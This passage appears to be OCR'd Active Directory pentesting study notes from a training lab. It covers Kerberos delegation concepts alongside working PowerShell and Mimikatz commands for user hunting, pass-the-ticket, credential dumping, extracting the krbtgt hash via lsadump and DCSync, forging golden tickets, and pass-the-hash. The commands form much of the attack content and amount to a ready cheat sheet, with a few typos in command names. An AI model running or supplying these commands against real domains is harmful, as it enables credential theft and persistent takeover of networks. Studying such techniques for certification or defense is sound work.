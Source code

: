 > > > >
> > > > ```powershell
> > > > Invoke-UserHunter -ComputerName <ServerName> -Poll 100 -Username <UserNAme> -Delay 5 -Verbose 
> > > > ```
> > >
> > > ***Exploit***
> > >
> > > > **Reuse TGT ticket** 
> > > >
> > > > ```powershell
> > > > Invoke-mimikatz -Command '"kerberos::ptt <tgtFilePAth>"'
> > > > 
> > > > ls \\dcorp-dc.dollarcorp.moneycorp.local\C$
> > > > ```
> >
> > ***Constrained Delegation*** 
> >
> > > :information_desk_person: Request only to specified services on specified computers;
> > >
> > > :information_source: If the user is not using Kerberos Authentication to authenticate to the first hope server, Window offer protocol transition to transition the request to Kerberos
> > >
> > > :book: User authenticates to a web service without Kerberose and the web service makes requests to Database server fetching results based on the user's authorization. 
> > >
> > > ***Service for User to Self (S4U2self)*** : Allows Service to obtain a forwarded TGS to its self on behalf a user 
> > >
> > > ***Service for User to Proxy(S4U2proxy)*** : Allows a service to obtain a TGS to a second service on behalf a user 
> >
> > > 
> >
> > 

***Persistence*** <u>Mimikatz at rescue:</u>

> :one: ***Dumb Creds*** 
>
> > :one::a:`Invoke-Mimikatz -DumpCreds `

> :two: ***KRBTGT***
>
> > Get ***krbtgt*** from DC as Domain admin  
> >
> > :two::b: `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc`

> :three: ***DCSync*** attack to extract ***krbtgt*** using Domain Admin privs
>
> > :three: :a: `Invoke-Command -Command '"lsadump::dcsync /user:<DOMAINNAME>\krbtgt"' `

> :four: ***Golden Ticket*** -- krbtgt NTLM is key of encryption (TGS)
>
> > Fork a ticket from any machine `Invoke-Mimkatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAINNAMEFQDN> /sid:<Domain SID> /krbtgt:<RC4 NTLM HASH>  /ptt"'`
> >
> > ***Clone Someone Ticket***  
> >
> > > :four::a: `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:<domainName> /ntlm:<hash> /run:powershell.exe"'`
